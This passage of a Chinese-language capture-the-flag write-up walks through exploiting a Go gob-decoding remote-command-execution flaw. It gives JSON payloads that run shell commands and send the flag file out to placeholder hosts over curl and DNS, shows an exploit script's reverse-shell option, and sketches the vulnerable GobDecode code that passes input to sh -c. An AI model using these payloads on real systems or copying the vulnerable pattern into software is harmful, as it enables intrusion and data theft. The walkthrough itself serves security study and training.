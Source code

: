 #### 步骤 4: 验证命令执行
由于是黑盒环境，需要通过其他方式验证命令是否执行：

1. **文件写入验证**:
   ```json
   {"data_processor":"config_update:exec:echo 'RCE_SUCCESS' > /app/static/test.txt"}
   ```
   然后访问 `http://target:8080/static/test.txt`

2. **网络外带**:
   ```json
   {"data_processor":"config_update:exec:curl http://your-server.com/$(cat /flag.txt)"}
   ```

3. **DNS 外带**:
   ```json
   {"data_processor":"config_update:exec:nslookup $(cat /flag.txt | base64).your-domain.com"}
   ```

### 自动化利用脚本

项目提供了完整的自动化利用脚本：

```bash
# 基本 RCE 测试
python3 exploit.py -t http://target:8080 -c "id"

# 获取 flag
python3 exploit.py -t http://target:8080 --flag

# 反向 shell
python3 exploit.py -t http://target:8080 --shell 192.168.1.100 4444
```

## 漏洞原理深入分析

### 代码层面的漏洞

虽然是黑盒测试，但可以推测后端的实现类似：

```go
// 危险的 GobDecode 实现
func (d *DataProcessor) GobDecode(data []byte) error {
    configStr := string(data)
    if strings.HasPrefix(configStr, "config_update:") {
        configData := strings.TrimPrefix(configStr, "config_update:")
        if strings.Contains(configData, "exec:") {
            parts := strings.Split(configData, "exec:")
            if len(parts) > 1 {
                // 漏洞点：直接执行系统命令
                exec.Command("sh", "-c", parts[1]).Run()
            }
        }
    }
    return nil
}
```

